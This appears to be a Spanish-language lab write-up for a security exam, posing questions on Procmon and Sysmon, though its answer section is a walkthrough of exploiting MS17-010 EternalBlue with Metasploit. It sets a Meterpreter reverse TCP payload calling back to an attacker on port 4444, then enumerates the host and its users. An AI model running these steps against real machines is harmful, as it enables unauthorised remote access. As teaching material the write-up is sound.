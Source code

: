 ```yaml
---
title: Examen Final
date: 2024-12-26 00:00:00 -05:00
categories: [procmon, sysmon, stack pointer]
tags: [shellcode, https, iis]  # TAG names should always be lowercase
---
```

# Preguntas.

¿Cómo podrías utilizar Procmon y Sysmon juntos para investigar la actividad de un proceso sospechoso? (5 ptos)

Explica los tipos de eventos que Procmon y Sysmon pueden capturar de forma complementaria.

Proporciona un ejemplo práctico de cómo identificar un posible comportamiento malicioso en un proceso utilizando ambas herramientas.


#### Desarrollo

### Conexion tcp reversa
Una conexión TCP reversa es una técnica utilizada en penetration testing y ciberseguridad para establecer una conexión de red desde una máquina objetivo (victima) hacia una máquina atacante (controladora). En este contexto, la máquina atacante escucha en un puerto específico por una conexión entrante, y la máquina objetivo inicia la conexión hacia ese puerto.

````bash
use exploit/windows/smb/ms17_010_eternalblue
````
![13ms17_010_eternalblue](/assets/images/13ms17_010_eternalblue.JPG)


````bash
set payload windows/meterpreter/reverse_tcp
````
![14reverse_tcp](/assets/images/14reverse_tcp.JPG)

Se configura la dirección IP y el puerto de la máquina atacante:

![15set_lhost](/assets/images/15set_lhost.JPG)

Una vez que el exploit se ejecuta con éxito, la máquina objetivo intentará conectarse a la máquina atacante en el puerto especificado (4444 en este caso). La máquina atacante escuchará por esta conexión y, si todo está configurado correctamente, se abrirá una sesión de Meterpreter.

Una vez que obtiene la conexión tcp reversa (suficiente con utilizar una de las direcciones de retorno que permite una exitosa ejecución del exploit), investigar los permisos de la shell (es decir, del usuario que ejecuta aquella shell).

Se puede obtener Información del Sistema:
El comando sysinfo para obtener una visión general del sistema:

![16exploit](/assets/images/16exploit.JPG)

````bash
meterpreter > sysinfo
````

Usamos el comando getuid para obtener el ID del usuario actual:

````bash
meterpreter > getuid
````

Usamos el comando enum_users para listar todos los usuarios del sistema:
````bash
meterpreter > enum_users
````